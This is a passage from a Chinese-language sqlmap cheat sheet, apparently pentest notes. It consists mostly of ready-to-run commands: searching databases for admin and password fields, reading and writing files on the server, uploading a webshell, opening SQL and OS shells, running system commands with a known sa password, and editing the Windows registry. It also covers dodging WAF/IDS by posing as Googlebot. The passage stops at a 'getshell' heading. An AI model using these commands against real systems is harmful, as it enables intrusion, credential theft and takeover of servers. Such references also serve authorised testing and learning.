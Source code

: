 **搜索字段**

```bash
sqlmap -r "c:\tools\request.txt" -dbms mysql -D dedecms --search -C admin,password  # 在 dedecms 数据库中搜索字段 admin 或者 password.
```

**读取与写入文件**

首先找需要网站的物理路径,其次需要有可写或可读权限.

- -file-read=RFILE 从后端的数据库管理系统文件系统读取文件 (物理路径)
- -file-write=WFILE 编辑后端的数据库管理系统文件系统上的本地文件 (mssql xp_shell)
- -file-dest=DFILE 后端的数据库管理系统写入文件的绝对路径
```bash
sqlmap -r aaa.txt --file-dest "e:\php\htdocs\dvwa\inc\include\1.php" --file-write "f:\webshell\1112.php"

# 注 : mysql 不支持列目录,仅支持读取单个文件.sqlserver 可以列目录,不能读写文件,但需要一个 xp_dirtree 函数
```

**提权**

```bash
sqlmap -u URL --sql-shell                       # 获取一个 sql-shell 会话
sqlmap -u URL --os-shell                        # 获取一个 os-shell 会话
sqlmap -u URL --os-cmd=ipconfig                 # 在注入点直接执行命令
sqlmap -d "mssql://sa:sql123456@ip:1433/master" --os-shell  # 知道数据库密码后提权成为交互式系统shell
```

**对 Windows 注册表操作**

```bash
--reg-read                                      # 读取注册表值
--reg-add                                       # 写入注册表值
--reg-del                                       # 删除注册表值
--reg-key,--reg-value,--reg-data,--reg-type     # 注册表辅助选项

sqlmap -u URL --reg-add --reg-key="HKEY_LOCAL_MACHINE\SOFTWARE\sqlmap" --reg-value=Test --reg-type=REG_SZ --reg-data=1
```

**预估完成时间**

```bash
--eta                                           # 计算注入数据的剩余时间
```

**测试 WAF/IPS/IDS 保护**

```bash
--identify-waf                                                      # 尝试找出WAF/IPS/IDS保护，方便用户做出绕过方式。
--mobile                                                            # 模仿智能手机
--referer "http://www.google.com"                                   # 模拟来源
--user-agent "Googlebot/2.1(+http://www.googlebot.com/bot.html)"    # 模拟谷歌蜘蛛
--skip-waf
```

**尝试 getshell**
